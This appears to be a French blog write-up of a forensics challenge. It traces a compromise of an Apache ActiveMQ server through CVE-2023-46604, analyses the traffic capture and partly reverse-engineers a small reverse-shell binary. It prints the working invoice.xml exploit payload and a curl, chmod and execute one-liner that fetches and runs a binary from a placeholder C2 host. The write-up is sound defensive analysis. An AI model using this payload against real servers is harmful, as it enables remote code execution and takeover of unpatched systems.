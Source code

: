 ```yaml
---
title: "Apache ActiveMQ sous la Loupe : analyse d'une CVE"
date: 2024-01-22T22:08:20+02:00
draft: false
---
```


## En résumé

Le challenge consiste à enquêter sur un serveur public signalé par un analyste SOC de niveau 1. Ce serveur émet des connexions sortantes vers plusieurs adresses IP suspectes. L'objectif est d'analyser le dump réseau afin de comprendre ce qu'il s'est passé et la façon dont l'attaquant s'est introduit sur le serveur.

L'attaquant a exploité la [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) notée 9.8 et publiée fin novembre 2023. Cette faille permet de manipuler la sérialisation des classes Java utilisées dans le protocole de communication [OpenWire](https://en.wikipedia.org/wiki/OpenWire_(binary_protocol)). Cela permet à l'attaquant d'instancier n'importe quelle classe pour exécuter du code distant. Le pirate utilise cette faille pour instancier une class [`ProcessBuilder`](https://docs.oracle.com/javase/8/docs/api/java/lang/ProcessBuilder.html) qui permet de lancer des processus sur le système d'exploitation de la machine. Grâce à cela, l'attaquant contacte son C2, télécharge un reverse shell, lui donne les droits d'exécution et l'exécute :

```bash
curl -s -o /tmp/docker http://<ip C2>/docker; chmod +x /tmp/docker; ./tmp/docker
```

L'attaquant dispose d'un exécutable sur le serveur web qui établi une connection avec lui. Cette vulnérabilité a été utilisée, notamment, pour déployer des cryptominers ou des rootkits. Les impacts sont variés mais dans le cadre d'un cryptominer les performances du système sont impactées, de même que la qualité de service ainsi qu'une usure du matériel prématurée. **Des patchs ont été déployés et les utilisateurs sont invités à mettre à jour leurs systèmes vers les versions 5.15.16, 5.16.7, 5.17.6 ou 5.18.3.** Plus d'information ici : [CVE-2023-46604 (Apache ActiveMQ) Exploited to Infect Systems With Cryptominers and Rootkits](https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html#:~:text=CVE%2D2023%2D46604%20\(Apache,Systems%20With%20Cryptominers%20and%20Rootkits).

Les investigations nous font remonter jusqu'au programme, que je tente de reverse. Les indices trouvés appuient l'hypothèse d'un reverse shell. On peut résumer les différentes étapes de l'attaque comme suit :

![L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.](/img/blog/activemq-cve/infection.png)

<figcaption>L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.</figcaption>

## Investigation

Ma méthode, lorsqu'il s'agit de dump réseau, est de commencer par une vue globale. Pour cela, j'utilise Network Miner : 

![Une vue d'ensemble des appareils présents sur le réseau.](/img/blog/activemq-cve/networkminer.png)

<figcaption>Une vue d'ensemble des appareils présents sur le réseau.</figcaption>

A première vue, rien ne semble particulièrement louche. Dans l'onglet `Files`, on observe deux fichiers `invoice.xml` : 

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://<ip-C2>/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

La commande `curl` est manifestement malveillante : elle télécharge un exécutable `docker` depuis un serveur C2, le rend exécutable et l'exécute.

On trouve les traces de ces actions sur Wireshark. Dans ce cas, il n'y a pas beaucoup de traffic et peu d'IPs, cela nous facilite la tâche. On identifie l'adresse IP malveillante. Nous avons donc 2 IPs : 
- celle utilisée par l'attaquant pour envoyer l'exploit
- celle que l'exploit contacte (C2) pour télécharger le reverse shell

![Liste des paquets HTML échangés.](/img/blog/activemq-cve/wireshark.png)

<figcaption>Liste des paquets HTML échangés.</figcaption>

On voit bien ici le trafic réseau de l'attaquant qui envoie la vulnérabilité, cette dernière contacte le C2 et télécharge la charge finale.

## Quels sont les capacités de docker ?

On parle bien entendu du binaire Linux récupéré et non de l'outil de conteneurisation. Puisque ce fichier a été échangé via le réseau, on est en capacité de le récupérer.

Mes compétences en reverse sont limités. Cependant, le fichier étant très petit (250 octets), j'ai décidé de tenter le coup. On observe plusieurs `syscall` Linux : 

- `sys_mmap`
Il sert à créer un mappage entre une région de mémoire virtuelle d'un processus et une ressource physique ou un fichier. Utile pour mapper un fichier en mémoire, allouer de la mémoire ou créer une zone de mémoire partagée.

- `sys_socket`
Il permet de créer un point de communication, ou socket, pour communiquer avec un autre processus sur une machine distante.

- `sys_connect`
Utilisé avec le précédent, il permet d'établir une connection réseau.

- `sys_nanosleep`
Suspend l'exécution du programme.

- `sys_exit`
Termine l'exécution du programme.

La combinaison du syscall de création de socket et de connexion semble bien indiquer un reverse shell. De toute façon, avec 250 octets, le programme ne peut pas avoir de fonctionnalité très avancée. Cependant, il est curieux de constater qu'il n'y a pas d'appel système pour **recevoir** (recv) et exécuter la commande reçue.

## Tricky ASM

Petite parenthèse pour rendre honneur. Un ami plus compétent en reverse, [Matthieu Breuil](https://www.linkedin.com/in/matthieu-breuil/), m'a dit qu'il y avait bien un syscall à `sys_read`, mais il est caché. De ce que j'ai compris de la subtilité, elle se déroule en deux étapes. La première est d'appeller le syscall `sys_connect` qui renvoie 0 si la connection a réussi.

![Le syscall est appelé et si la connection se déroule sans problèmes, un 0 est renvoyé.](/img/blog/activemq-cve/trick-asm0.png)

<figcaption>Le syscall est appelé et si la connection se déroule sans problèmes, un 0 est renvoyé.</figcaption>

La seconde étape est d'appeller un `syscall`. Or, avec la valeur de retour du précédent `syscall`, qui est 0 si la connexion s'est bien déroulée, on retombe bien sur `sys_read`, car l'entier qui identifie ce call est 0. D'après la documentation de `sys_read`, on peut voir également les paramètres attendus par ce call, comme la taille du buffer de réception (7E).

![D'après l'étape précédente, l'opération syscall appelle celui d'identifiant 0, sys_read.](/img/blog/activemq-cve/trick-asm1.png)

<figcaption>D'après l'étape précédente, l'opération syscall appelle celui d'identifiant 0, sys_read.</figcaption>

On observe ici que l'outil, IDA, se trompe car il identifie cet appel comme `sys_exit` alors que ça n'est pas le cas. D'après Matthieu, le seul moyen possible d'implémenter une obfuscation de ce type est de passer directement par l'assembleur. Dit autrement, il n'est pas possible de coder cela dans un langage haut niveau comme C, Python... Cela nécessite donc des connaissances importantes et un savoir-faire précis.

## Capacités : hypothèses

Il y a également la présence d'une valeur codée en dur : `5C15BE92BB010002`.

- Hypothèse 1 : cette valeur est une clef de chiffrement/déchiffrement pour obfusquer des paramètres du programmes et chiffrer les communications avec le C2.

On peut écarter cette hypothèse car il n'y a pas d'autres chaînes de caractères et il ne semble pas y avoir de fonction de déchiffrement/décodage dans le programme.

- Hypothèse 2 : cette valeur contient les informations de connexions avec le C2 (IP + port + autre chose ?).

Cet "autre chose" pourrait être un identifiant de compromission. Utilisé parfois par les attaquants, un identifiant sert à identifier la victime afin de mieux les monitorer : gardons à l'esprit la volonté d'industrialisation dans ce type d'attaque. Cette hypothèse est plus plausible car ce paramètre est proche de l'appel à `sys_connect`.

![La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.<](/img/blog/activemq-cve/reverse.png)

<figcaption>La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.</figcaption>
